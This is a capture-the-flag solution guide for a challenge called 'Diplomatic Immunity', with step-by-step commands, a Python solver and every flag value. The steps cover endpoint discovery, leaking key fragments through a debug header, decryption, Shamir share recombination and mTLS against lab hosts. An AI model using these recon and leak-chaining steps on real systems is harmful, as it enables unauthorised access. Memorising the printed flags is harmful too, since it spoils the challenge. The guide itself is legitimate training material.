


# Diplomatic Immunity Solution Guide

This guide details the strategy to solve `Diplomatic Immunity`.

## Overview

An embedded field agent — callsign **Kabal** — has been exposed while operating under diplomatic cover. To extract her safely, your team must forge a complete embassy document trail that will legitimize her departure on an official diplomatic transport.

The embassy's secure signing infrastructure has been fragmented by the adversary. Each subsystem holds a critical component of the ambassador's digital signature chain (access logs, surveillance evidence, mail headers, key shards, and a signing vault). You must recover and reassemble the Ambassador's Final Clearance Key — a cryptographic signature used to authorize a diplomatic transfer.

## Objectives

Each token below maps to a piece of the forged dossier:

- **TOKEN 1** — Obtain a valid serial number for use with the soon to be forged Transfer Orders.
- **TOKEN 2** — Extract from surveillance frames that shows the ambassador's recorded approval element.
- **TOKEN 3** — Diplomatic cable content recovered from signed mail (GOST S/MIME) containing secret shards.
- **TOKEN 4** — Reconstructed private key material from Shamir shares and RSA-OAEP key unwrap.
- **TOKEN 5** — Final Ambassador’s Clearance Key produced by the vault via mTLS; used to sign the forged exit paperwork.

## Question 1

***From the `Logger` asset, recover and decode the serial from the certificate used by the Agency for "events" (emergency situations) in which diplomatic immunity processing must be done quickly.***

### Steps 

Workflow
a. **Discover** the relevant operational endpoints without prior knowledge.
b. **Chain leaks** to reconstruct a short `agent_key` to alter the logs and produce your own "event" certificate.
c. **Retrieve** the certificate (`*.der`) and decode the certificate serial (hex) back to ASCII → **`TOKEN1`**.


1) Often times, real organizations expose non-production endpoints without realizing that they may be divulging potentially sesnitive information about their system architecture. Let's start here.

Through discovery operations (dirb, Discover Content (Burp), etc), challengers will eventually find a `robots.txt` file containing seemingly innocuous information:

**Command**

```bash
curl -s http://logger.embassy.svc:8080/robots.txt
```

**Output**

```text
User-agent: *
Disallow: /admin/
Sitemap: /sitemap.xml
```

2) We must now take these endpoints and examine their activity. Going to /admin yields an error message about internal use, however, going to sitemap.xml yields the existence of several endpoints for investigation:

**Output**

```xml
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <url><loc>/alter_log</loc></url>
  <url><loc>/health</loc></url>
  <url><loc>/meta</loc></url>
  <url><loc>/errors</loc></url>
  <url><loc>/validate</loc></url>
  <url><loc>/.well-known/logger</loc></url>
</urlset>
```

3) Navigating to each of these endpoints will help us retrieve pieces we'll need to combine to get the requested token (1):

* /.well-known/logger - tells us the following: "This host exposes health, meta and errors endpoints for operations. Debug views may require specific headers."
* /health - provides generic information about the connector however, a new response header appears (X-Debug) with the default value of "no"; we'll need to toggle this for more information.
* /meta - mentions requiring a `session header` and correct value.
* /errors - yields a base64 artifact which decodes to "eventB.pold" which we'll need for later. 

4) Let's revisit the /health endpoint; submitting the `X-Debug` header with the value of `yes` yields additional output:

**Command**

```bash
curl -X GET http://logger.embassy.svc:8080/health -H "X-Debug: yes"
```

**Output**

```json
{"status":"ok","services":{"db":"db:5432","auth":"auth.embassy.svc","agent_key_fragment_a":"ag"},"session":{"value":"CgWv87vQDPrsrPHVu6"}}
```

We now have a "fragment_a" with the value of "ag" and a session valuee.

5) Let's now examine the `/meta endpoint which, with the right headers, will yield the second fragment of the agent key.

**Command**

```bash
curl -s -H "session: CgWv87vQDPrsrPHVu6" http://logger.embassy.svc:8080/meta | jq -r .
```

**Output**

```json
{
  "services": {
    "agent_key_fragment_b": "ZW50X2tleV9C"
  }
}
```

When decoded, we get:

**Command**

```bash
echo ZW50X2tleV9C | base64 -d
```

**Output**

```text
ent_key_B
```

The full key is now `agent_key_B`

6) Now that we have the agent key, let's alter the logs. Speaking to the `alter_logs` endpoint with the `X-Debug` header set to `yes` reveals information on how to use the endpoint.

Next, we get our nonce:

**Command**

```bash
NONCE=$(curl -s http://logger.embassy.svc:8080/alter_log | jq -r '.nonce')
echo "$NONCE"
```

7) After that we compute the specified hex value:

**TOKEN 1 Solver**

```python
#!/usr/bin/env python3
# solver_token1.py
import sys, base64, hmac, hashlib, requests

def jget(url, **kw):
    r = requests.get(url, timeout=6, **kw); r.raise_for_status(); return r.json()

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 solve_validate.py http://logger.embassy.svc:8080"); sys.exit(1)
    base = sys.argv[1].rstrip("/")

    # 1) /health with X-Debug: yes → get fragment_a + session
    health = jget(f"{base}/health", headers={"X-Debug":"yes"})
    frag_a = (health.get("services") or {}).get("cfg_fragment_a")
    session_val = (health.get("session") or {}).get("value")
    if not frag_a or not session_val:
        print("[!] missing fragment_a or session from /health:", health); sys.exit(1)

    # 2) /meta with header 'session: <value>' → get fragment_b (base64) and decode
    meta = jget(f"{base}/meta", headers={"session": session_val})
    frag_b_b64 = (meta.get("services") or {}).get("cfg_fragment_b")
    if not frag_b_b64:
        print("[!] missing cfg_fragment_b from /meta:", meta); sys.exit(1)
    frag_b = base64.b64decode(frag_b_b64).decode()

    agent_key = f"{frag_a}{frag_b}"  # 'ag' + 'ent_key_B' -> 'agent_key_B'

    # 3) /alter_log with X-Debug: yes → rotate and fetch **plaintext** nonce
    alt = jget(f"{base}/alter_log", headers={"X-Debug":"yes"})
    nonce = (alt.get("nonce") or "").strip()
    if not nonce:
        print("[!] missing nonce from /alter_log:", alt); sys.exit(1)

    # 4) Compute hex(HMAC_SHA256(agent_key, nonce))
    xagent = hmac.new(agent_key.encode(), nonce.encode(), hashlib.sha256).hexdigest()

    # 5) POST JSON to /validate (Body(...)=JSON). DON’T use form-encoded.
    r = requests.post(
        f"{base}/validate",
        headers={"X-Agent": xagent, "Content-Type": "application/json"},
        json=nonce,
        timeout=6,
    )
    # If rate-limited, show server text
    if r.status_code == 429:
        print("[!] rate limited:", r.text); sys.exit(1)
    if r.status_code != 200:
        print(f"[!] /validate {r.status_code}: {r.text}"); sys.exit(1)

    print(r.text)  # raw JSON; server currently returns the artifact info

if __name__ == "__main__":
    main()
```

8) Once ran, we will get verbose output telling us the name and location of the certificate we need to get the Serial from:

**Command**

```python
python3 t1_solver.py http://logger.embassy.svc:8080                            
{"certificate":{"status":"validated","location":"http://logger.embassy.svc:8080/artifacts/","name":"event_certificate.der"}}
```

9) Finally, download the certificate and unhexify the Serial Number to get `Token 1`:

**Command**

```bash
curl -s "http://logger.embassy.svc:8080/artifacts/event_certificate.der" -o event_certificate.der
file event_certificate.der
```



Here's a simple python3 script that can perform this operation (in our example, the hex decoded yields 'DI-TM-TOKEN1')

**Command**

```bash
python3 -c "b=bytearray.fromhex('<SERIAL NUMBER - HEX VALUE WITHOUT SPACES>').decode(); print(b)"
```

**Output**

```bash
PCCC{DI-E3W9u1wr}
```

## Answer

The answer is the value you discovered as `TOKEN1`.

## Question 2

***Harvest a `surveillance` footage frame that contains the passphrase fragment proving the ambassador's visible approval element. Use it to extract the zip from the Camellia-CBC encrypted file.***

### Overview 
The surveillance host contains an encrypted payload using Camellia. You must extract the passphrase from frames (OCR) then decrypt the payload using an uncommon cipher (Camellia) that forces tool research.

### Steps

1. List available CCTV assets or download the primary video feed so you can inspect frames.

**Command**

```bash
curl -s http://surveillance.embassy.svc:8080/list
```

You will find three files which you can download using these commands:

**Command**

```bash
curl -s http://surveillance.embassy.svc:8080/cctv/hallway-1.mp4 -o hallway-1.mp4
curl -s http://surveillance.embassy.svc:8080/frames/frame-003.jpg -o frame-003.jpg
curl -s http://surveillance.embassy.svc:8080/artifacts/payload.cam.enc -o payload.cam.enc
```

2. Next, run OCR on promising frames to harvest any passphrase fragments printed on whiteboards or screens.

**Command**

```bash
# OCR a few likely frames to extract readable fragments
tesseract frame-003.jpg out003 -l eng --psm 7
cat out003.txt
```

This will yield a passphrase: 

**Output**

```text
CAM_PASSPHRASE=Artemis -Bridge- 27
```

💡 Please note that due to processing, you may run into situations where extra spaces are added. You can ignore them for the purposes of this challenge and combine the words.

As is suggested in the `Description` of this challenge, we eliminate the spaces to get the following (correct) `CAM_PASSPHRASE`:

```text
Artemis-Bridge-27
```

4. With this phrase in mind and the payload.cam.enc file available, let's attempt decryption of this file with OpenSSL's Camellia cipher.

NOTE: If your OpenSSL lacks Camellia, use an available packaged tool in the challenge environment.

**Command**

```bash
# Decrypt using Camellia-256-CBC; this expects your OpenSSL to support Camellia
openssl enc -d -camellia-256-cbc -in payload.cam.enc -pbkdf2 -out payload.zip -pass pass:"Artemis-Bridge-27"
```

💡 If successful, you will receive nothing back from the terminal. If you are missing the `-pbkdf2` or `-iter` switches, you may get a "bad decrypt" error.

5. Unzip the decrypted payload to obtain TOKEN2.

**Command**

```bash
# Unpack and reveal the contained token file
unzip -o payload.zip -d payload
cat payload/TOKEN2.txt
TOKEN2_VALUE="$(cat payload/TOKEN2.txt)"
```

**Output**

```text
Archive:  payload.zip
 extracting: payload/TOKEN2.txt      
PCCC{DI-F4u6q2iF}
```

## Answer

The answer is the value presented in `TOKEN2.txt`.

## Question 3

***On the `Intel` asset, the mail server stores a GOST-signed S/MIME message containing Shamir's Secret Sharing algorithm shards. These shards are needed to reconstruct a key required to forge Kabal's immunity papers.***

### Overview 
The mail server stores a GOST-signed S/MIME message containing baseXX Shamir shards. Verifying the signature and extracting attachments yields the passphrase shards.

### Steps

1. Download the mailbox MBOX to examine intercepted diplomatic mail:

**Command**

```bash
curl -s http://intel.embassy.svc:8080/mail/ops.mbox -o ops.mbox
```

You should now have `ops.mbox` available to you in the current directory:

**Command**

```bash
ls ops.mbox
```

**Output**

```bash
ops.mbox
```

2. We can use the following syntax to split the file up so each message is separate and easy to view. Split the mbox into messages so you can identify which messages are S/MIME signed:

**Command**

```bash
csplit -sz ops.mbox '/^From /' '{*}' && ls xx* 
```

This splits the mailbox based on the `FROM` header.

**Output**


```bash
xx00  xx01  xx02  xx03  xx04  xx05  xx06  xx07  xx08  xx09  xx10  xx11
```

3. We begin to examine each "xx**" file or "email" to determine which one has `shards` inline with the `Shamir Secret Sharing` method. The SSS method requires a minimum of `three` shards in order to operate:

<details><summary>Example from the set</summary>

**Command**

```bash
cat xx09
```

**Output**

```bash
┌──(user㉿kali)-[~/Desktop/dip-immun]
└─$ cat xx09
From comms@embassy.local Thu Oct 02 14:13:17 2025
Subject: RE: Secure Delivery (verification optional)
Message-ID: <di-sig-decoy-0010@embassy.local>
MIME-Version: 1.0
Content-Type: multipart/signed; protocol="application/pkcs7-signature"; micalg=sha-256; boundary="SIGBOUNDARY_DEC2"
X-Embassy-Unit: Comms
X-DI-Case: IMMUNITY
X-DI-Mission: T3-DECOY

--SIGBOUNDARY_DEC2
Content-Type: multipart/mixed; boundary="BOUNDARY_DEC2"

--BOUNDARY_DEC2
Content-Type: text/plain; charset="utf-8"

Signed cable fragment (verification optional).
Label and threshold differ from current directive.

Label: DI-CABLE
Threshold: 2-of-3   (OUTDATED)

--BOUNDARY_DEC2
Content-Type: message/rfc822
Content-Disposition: attachment; filename="message.eml"

BEGIN SIGNED MESSAGE (simulated)
SHARD1=REVDT1ktU0hBUkQx
SHARD2=REVDT1ktU0hBUkQy
SHARD3=REVDT1ktU0hBUkQz
END SIGNED MESSAGE
--BOUNDARY_DEC2--

--SIGBOUNDARY_DEC2
Content-Type: application/pkcs7-signature; name="smime.p7s"
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="smime.p7s"

RGVjb3kgc2lnbmF0dXJlIHBhcnQuIFRocmVzaG9sZCBpcyB3cm9uZy4=
--SIGBOUNDARY_DEC2--
```

</details>

4. Let's locate messages that include `S/MIME parts` to find GOST signatures:

**Command**

```bash
# Grep messages for smime or pkcs7 markers
grep -lE "application/pkcs7-signature|smime" xx* > smime_msgs.txt
cat smime_msgs.txt
```

**Output**

```bash
xx06
xx09
xx10
```

5. Our next task is to extract he signed payload/attachments from the target message for signature verification. We use `munpack` or `mime unpack` to extract hidden attachments from the `right candidate`. After looking into `xx06` and `xx10`, we find that they do not qualify as valid `SHAMIR` protocol based payloads as they are lacking one or more `shards`. 

This protocol requests the use of `three or more` shards to work:

**Command**

```bash
cat xx10
```

**Output**

```text                                                                                                                            
From nobody Thu Oct 02 14:00:00 2025
Subject: RE: Secure Delivery
Message-ID: <di-sig-real-0011@embassy.local>
MIME-Version: 1.0
Content-Type: multipart/signed; protocol="application/pkcs7-signature"; micalg=sha-256; boundary="SIGBOUNDARY_REAL"
X-Embassy-Unit: Comms
X-DI-Case: IMMUNITY-REINSTATE
X-DI-Mission: T3
X-DI-Asset: KABAL
X-DI-Directive: "Reassemble Ambassador Final Clearance Key chain. No leaks."

--SIGBOUNDARY_REAL
Content-Type: multipart/mixed; boundary="BOUNDARY_REAL"

--BOUNDARY_REAL
Content-Type: text/plain; charset="utf-8"

This is a GOST-signed diplomatic cable payload (verification optional).

If Kabal’s cover is burned, we do not “extract”—we “transfer under immunity.”
The signing chain is fragmented; reconstruct the clearance passphrase from the shares.

Label: DI-CABLE
Threshold: 3-of-3

--BOUNDARY_REAL
Content-Type: message/rfc822
Content-Disposition: attachment; filename="message.eml"

BEGIN SIGNED MESSAGE (simulated)
SHARD1=MS0yYmUxMzRjMDkwZGU0YmRiMGQ2ZDk0ZGEzNGMzZGY5ZWI1YTliNQ==
SHARD2=Mi0yOTdjNWEzZmY2NmIwNWM2ODg1YjgyZjU3MTM3NjZlZmNmMGVkYQ==
SHARD3=My0zMWUwYzY3ZmExYzVlZDg4ZTRlMGZiYWQyYzNkZmIzMTE5NjY4OQ==
END SIGNED MESSAGE
--BOUNDARY_REAL--

--SIGBOUNDARY_REAL
Content-Type: application/pkcs7-signature; name="smime.p7s"
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="smime.p7s"

VGhpcyBpcyBhIHNpbXVsYXRlZCBzL01JTUUgc2lnbmF0dXJlIHBhcnQuIFZlcmlmaWNhdGlvbiBvcHRpb25hbC4=
--SIGBOUNDARY_REAL--
```

**Extraction**

We can use a tool called `ripmime` to get the `message.eml` AND the `smime.p7s` files. If you don't have this tool, you can get it with the following command:

**Command**

```bash
sudo apt install ripmime -y
```

Once installed, use this command:

**Command**

```bash
ripmime -i xx10 -d mails_out 
```

NOTE: This will `create` a folder called `mails_out` which will contain all recovered attachments.

**Output**

You will not receive feedback however, if you list the files in the mails_out folder, we find both our attachments there and some other metadata files:

**Command**

```bash
ls mails_out/
```

**Output**

```text
message.eml  smime.p7s  textfile0  textfile1
```

<details>
<summary> Decoy Shards </summary>
Decoy shards are shards that do not conform to the Shamir protocol's requirement.
You will receive one or more of these messages when attempting, what will be, the next step in this challenge:

* SHARD-TOO-SHORT
* THIS-IS-NOT-VALID
* DEOCY-SHARD
</details>


6. Inspect the reconstructed signed message payload by opening the extracted RFC822 payload:

**Command**

```bash
less mails_out/message.eml
```

You should see a block similar to:

**Output**

```text
BEGIN SIGNED MESSAGE
SHARD1=BASE64VALUE1
SHARD2=BASE64VALUE2
SHARD3=BASE64VALUE3
END SIGNED MESSAGE
```

Here's an example of valid output:



These three base64-encoded values are the Shamir shares required to reconstruct the clearance passphrase.

7. Extract and decode the Shamir shares directly from the message and decode it:

**Command**

```bash
awk '/^SHARD1=/{print substr($0,8)}' message.eml | base64 -d > shard1.txt
awk '/^SHARD2=/{print substr($0,8)}' message.eml | base64 -d > shard2.txt
awk '/^SHARD3=/{print substr($0,8)}' message.eml | base64 -d > shard3.txt
```

Verify the contents:

**Command**

```bash
cat shard1.txt
cat shard2.txt
cat shard3.txt
```

Each file should contain a Shamir share in the form:

**Output**

```text
1-HEXDATA
2-HEXDATA
3-HEXDATA
```

8. Next, recombine the Shamir shares to recover the passphrase; use `ssss-combine` with a threshold of 3:

**Command**

```bash
printf '%s\n' "$(cat shard1.txt)" "$(cat shard2.txt)" "$(cat shard3.txt)" | ssss-combine -t 3
```

Display the recovered secret:

**Output**

```bash
Resulting secret: PCCC{DI-e4k8q0Nq}
```

## Answer

This answer is the secret presented.

## Question 4

***From the `Classified Archives`, recover the ambassador's private signing capability from distributed fragments. Download the files hosted on the `artifacts` endpoint and analyze them. The archive is encrypted with a symmetric key that is itself protected and cannot be accessed directly. Reconstruct the fragmented private key material, use it to recover the symmetric key, and decrypt the archive to obtain Token 4.***    

### Steps

1. To begin, let's grab all available artifacts based on the description provided. Navigating to the site will yield the following output:

**Command**

**To view the files:**

```bash
curl http://archive.embassy.svc:8080/artifacts
```

**Output**

```json
{
  "artifacts": [
    {
      "name": "sym.key.rsa-oaep",
      "path": "/artifacts/sym.key.rsa-oaep",
      "description": "RSA-OAEP wrapped symmetric key",
      "media_type": "application/octet-stream",
      "size_bytes": 256
    },
    {
      "name": "classified.tar.enc",
      "path": "/artifacts/classified.tar.enc",
      "description": "AES-256-CBC encrypted classified archive",
      "media_type": "application/octet-stream",
      "size_bytes": 12345
    },
    {
      "name": "classified.iv",
      "path": "/artifacts/classified.iv",
      "description": "Initialization vector for archive decryption",
      "media_type": "text/plain",
      "size_bytes": 32
    }
  ],
  "count": 3
}
```

**To download the files:**

**Command**

```bash
curl -fsS http://archive.embassy.svc:8080/artifacts/sym.key.rsa-oaep -o sym.key.rsa-oaep
curl -fsS http://archive.embassy.svc:8080/artifacts/classified.tar.enc -o classified.tar.enc
curl -fsS http://archive.embassy.svc:8080/artifacts/classified.iv -o classified.iv
```

**Output**

```bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                                      
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                                        
100    22 100    22   0     0 11027     0  --:--:-- --:--:-- --:--:-- 22000                                                                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                                      
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                                        
100    22 100    22   0     0 19163     0  --:--:-- --:--:-- --:--:-- 22000                                                                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                                      
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                                        
100    22 100    22   0     0 22845     0  --:--:-- --:--:-- --:--:-- 22000    
```

We now have what we need to get started.

2. Next, retrieve the RSA private-key fragments, use previously recovered tokens as authorization headers:

**Command**

```bash
export TOKEN1_VALUE=PCCC{DI-E3W9u1wr}
export TOKEN2_VALUE=PCCC{DI-F4u6q2iF}
export TOKEN3_VALUE=PCCC{DI-e4k8q0Nq}

curl -fsS http://archive.embassy.svc:8080/export/shareA -H "X-Frag: $TOKEN1_VALUE" -o shareA.bin
curl -fsS http://archive.embassy.svc:8080/export/shareB -H "X-Frag: $TOKEN2_VALUE" -o shareB.bin
curl -fsS http://archive.embassy.svc:8080/export/shareC -H "X-Frag: $TOKEN3_VALUE" -o shareC.bin
```

While not required, storing the tokens as environmental variables will speed this step up this portion of the challenge.

3. Next, reassemble the RSA private key; the fragments are **raw splits**, not Shamir shares.

**Command**

```bash
cat shareA.bin shareB.bin shareC.bin > privkey.der
openssl pkey -inform DER -in privkey.der -out privkey.pem
```

Optional sanity check:

**Command**

```bash
openssl pkey -in privkey.pem -check -noout
```

**Output**

```text
Key is valid
```

4. We now have the original private key in hand. Next, we find that the filename of the provided key tells us the type of key it is. (RSA-OAEP). We'll now use it (`symkey.rsa-oaep`) to unwrap the file contents of `classified.tar.enc`:

**Command**

```bash
openssl pkeyutl -decrypt -inkey privkey.pem -in sym.key.rsa-oaep -out aes.key -pkeyopt rsa_padding_mode:oaep
```

As RSA-OAEP is older, `rsautl` may not be available in your `Kali` instance. However, if you do have it installed, the following can be used as an alternative:

**Command**

```bash
openssl rsautl -decrypt -oaep -inkey privkey.pem -in sym.key.rsa-oaep -out aes.key
```

Verify size (must be 32 bytes):

**Command**

```bash
ls -l aes.key
```

5. Prepare the key and IV for ease of use. With all AES encryption, an IV is required and is conveniently provided to us via `classified.iv`:

**Command**

```bash
KEY_HEX="$(xxd -p aes.key | tr -d '\n')"
IV_HEX="$(tr -d '\n' < classified.iv)"

echo "KEY_HEX=$KEY_HEX"
echo "IV_HEX=$IV_HEX"
```

6. Next, let's decrypt the archive (AES-256-CBC). The archive may be encrypted **without padding**, so try `-nopad` first:

**Command**

```bash
openssl enc -d -aes-256-cbc -K "$KEY_HEX" -iv "$IV_HEX" -nopad -in classified.tar.enc -out classified.tar
```

If that fails, retry **with padding enabled**:

**Command**

```bash
openssl enc -d -aes-256-cbc -nopad -K "$KEY_HEX" -iv "$IV_HEX" -in classified.tar.enc -out classified.tar
```

7. Finally, extract and read TOKEN4:

**Command**

```bash
mkdir -p c4
tar -xvf classified.tar -C c4
cat c4/TOKEN4.txt
```

The value printed is **TOKEN4**.

### Solver Script

Here's a script that puts this all together:

```bash
#!/bin/bash

curl -fsS http://archive.embassy.svc:8080/artifacts/sym.key.rsa-oaep -o sym.key.rsa-oaep
curl -fsS http://archive.embassy.svc:8080/artifacts/classified.tar.enc -o classified.tar.enc
curl -fsS http://archive.embassy.svc:8080/artifacts/classified.iv -o classified.iv

curl -fsS http://archive.embassy.svc:8080/export/shareA -H "X-Frag: $TOKEN1_VALUE" -o shareA.bin
curl -fsS http://archive.embassy.svc:8080/export/shareB -H "X-Frag: $TOKEN2_VALUE" -o shareB.bin
curl -fsS http://archive.embassy.svc:8080/export/shareC -H "X-Frag: $TOKEN3_VALUE" -o shareC.bin

cat shareA.bin shareB.bin shareC.bin > privkey.der
openssl pkey -inform DER -in privkey.der -out privkey.pem
openssl pkeyutl -decrypt -inkey privkey.pem -in sym.key.rsa-oaep -out aes.key -pkeyopt rsa_padding_mode:oaep

KEY_HEX="$(xxd -p aes.key | tr -d '\n')"
IV_HEX="$(tr -d '\n' < classified.iv)"

openssl enc -d -aes-256-cbc -nopad -K "$KEY_HEX" -iv "$IV_HEX" -in classified.tar.enc -out classified.tar
mkdir -p c4
tar -xvf classified.tar -C c4
cat c4/TOKEN4.txt
```

## Answer

The answer for token 4 is the presented value of `token 4` from `token4.txt`.

## Question 5

***From the `API Vault`, finalize the ambassador’s authorization process for Agent Kabal. The vault requires proof that you possess the ambassador’s event credential recovered earlier in the operation. Using the event certificate from Token 1, the reconstructed private key from Token 4, and the values from Tokens 1–4, submit an authenticated request to the authorization (reinstate) endpoint to receive the final clearance key.***

### Overview

The **API Vault** provides the final authorization step required to restore Agent Kabal’s diplomatic status.

To issue the final clearance key, the vault requires two forms of validation:

1. **mTLS authentication** using the **event certificate recovered in Question 1**
2. A **JSON payload containing the tokens recovered in Questions 1–4**

The event certificate recovered in **Question 1** was provided in **DER format** and must be converted to **PEM format** before it can be used for mTLS authentication.

The private key required for authentication was recovered during the **archive decryption process in Question 4**.

After authentication succeeds and the vault verifies the token payload, the service returns the **Ambassador Clearance Key**, which serves as the final token.

### Steps

1. Enumerate the API Vault by first confirming that the service is up:

**Command**

```bash
curl -k https://api-vault.embassy.svc:8443/
```

**Output**

```json
{
  "service": "Embassy Clearance Vault",
  "description": "Final authorization service for diplomatic clearance",
  "authentication": "mTLS client certificate required",
  "endpoint": "/access/reinstate",
  "method": "POST",
  "required_payload": {
    "token1": "string",
    "token2": "string",
    "token3": "string",
    "token4": "string"
  }
}
```

The vault requires a **POST request to `/access/reinstate`** and expects a JSON payload containing tokens **1–4**.

2. Assemble the `required_payload`, using the tokens recovered from Questions 1-4 to create a JSON object that contains all four token values:

**Command**

```bash
jq -n \
  --arg t1 "$TOKEN1_VALUE" \
  --arg t2 "$TOKEN2_VALUE" \
  --arg t3 "$TOKEN3_VALUE" \
  --arg t4 "$TOKEN4_VALUE" \
  '{token1:$t1, token2:$t2, token3:$t3, token4:$t4}' > reassembly.json

cat reassembly.json
```

**Output**

```json
{
  "token1": "PCCC{DI-E3W9u1wr}",
  "token2": "PCCC{DI-F4u6q2iF}",
  "token3": "PCCC{DI-e4k8q0Nq}",
  "token4": "PCCC{DI-a7Z5n4dx}"
}
```

This JSON payload will be submitted to the vault during the authorization request.

3. Next, let's convert the Event Certificate (Question 1 Artifact) into a .pem for use with mTLS authentication. The **event certificate recovered during Question 1** was provided as `event_certificate.der`.

**Command**

```bash
openssl x509 -inform DER -in event_certificate.der -out event_certificate.pem
```

The resulting PEM certificate will be used as the **client certificate for authentication**.

4. Next, prepare the `private key` (Question 4 Artifact) for use with the newly created .pem file. During the solving of TOKEN4, the classified archive was decrypted after recovering the symmetric key.

Inside the decrypted archive, the following authentication materials were recovered:

* client.key
* ca-chain.pem

These files provide the private key and certificate authority chain required to authenticate with the vault.

Verify the certificate chain using the converted event certificate.

**Command**

```bash
openssl verify -CAfile ca-chain.pem event_certificate.pem
```

**Output**

```bash
event_certificate.pem: OK
```

5. With the token payload prepared and the certificate authentication materials available, submit the authorization request to the vault.

The request must include:

* the **converted event certificate** from **Question 1**
* the **private key recovered in Question 4**
* the **CA chain recovered in Question 4**
* the **JSON payload containing tokens 1–4**

**Command**

```bash
curl --fail --silent --show-error --cert c4/client.crt --key c4/client.key --cacert c4/ca-chain.pem -H "Content-Type: application/json" --data @reassembly.json https://api-vault.embassy.svc:8443/access/reinstate  -k | jq
```

**Output**

```json
{
  "request": "granted",
  "AMBASSADOR_CLEARANCE_KEY": "PCCC{DI-E4z1N4NI}",
  "Legal First Name": "Kabal",
  "Legal Last Name": "Alexander",
  "legal status": "🟢 DIPLOMATIC IMMUNITY"
}
```

## Answer

The final answer for **TOKEN5** is the value returned in the field `AMBASSADOR_CLEARANCE_KEY`.

This value confirms that the vault has accepted the authenticated authorization request and reinstated Agent Kabal’s diplomatic immunity.

*This concludes the Solution Guide for this challenge.*
